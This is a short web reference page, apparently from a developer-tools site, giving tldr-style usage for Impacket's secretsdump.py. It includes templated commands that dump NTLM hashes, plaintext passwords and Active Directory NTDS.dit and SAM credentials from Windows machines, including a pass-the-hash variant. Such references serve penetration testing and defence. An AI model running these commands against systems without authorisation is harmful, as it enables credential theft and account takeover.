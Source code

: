 ```yaml
---
title: "Dump NTLM Hashes - Secretsdump.py Windows Credentials | Online Free DevTools by Hexmos"
name: secretsdump.py
path: /freedevtools/tldr/common/secretsdump.py
canonical: "https://hexmos.com/freedevtools/tldr/common/secretsdump.py/"
description: "Dump NTLM hashes with secretsdump.py, extracting Windows credentials and Active Directory information. Free online tool, no registration required for credential recovery."
category: common
keywords:
- NTLM Hash Dumper
- Windows Credential Extraction
- Active Directory Dump
- SAM Database Extraction
- Pass-the-Hash Attack
- Windows Password Recovery
- Domain Credential Dump
- Credential Dumping Impacket
- secretsdump.py Usage
- Windows Security Tool
features:
- Extracts NTLM hashes from Windows systems remotely
- Dumps plaintext passwords from domain controllers
- Retrieves credentials from Active Directory's NTDS.dit file
- Extracts hashes from local SAM databases
- Supports pass-the-hash authentication
ogImage: "https://hexmos.com/freedevtools/site-banner.png"
twitterImage: "https://hexmos.com/freedevtools/site-banner.png"
---
```


# secretsdump.py

> Dump NTLM hashes, plaintext passwords, and domain credentials from remote Windows systems.
> Part of the Impacket suite.
> More information: <https://github.com/fortra/impacket>.

- Dump credentials from a Windows machine using a username and password:

`secretsdump.py {{domain}}/{{username}}:{{password}}@{{target}}`

- Dump hashes from a machine using pass-the-hash authentication:

`secretsdump.py -hashes {{LM_Hash}}:{{NT_Hash}} {{domain}}/{{username}}@{{target}}`

- Dump credentials from Active Directory's NTDS.dit file:

`secretsdump.py -just-dc {{domain}}/{{username}}:{{password}}@{{target}}`

- Extract credentials from a local SAM database using registry hives:

`secretsdump.py -sam {{path/to/SAM}} -system {{path/to/SYSTEM}}`

- Dump hashes from a machine without providing a password (if a valid authentication session exists, e.g. via Kerberos or NTLM SSO):

`secretsdump.py -no-pass {{domain}}/{{username}}@{{target}}`
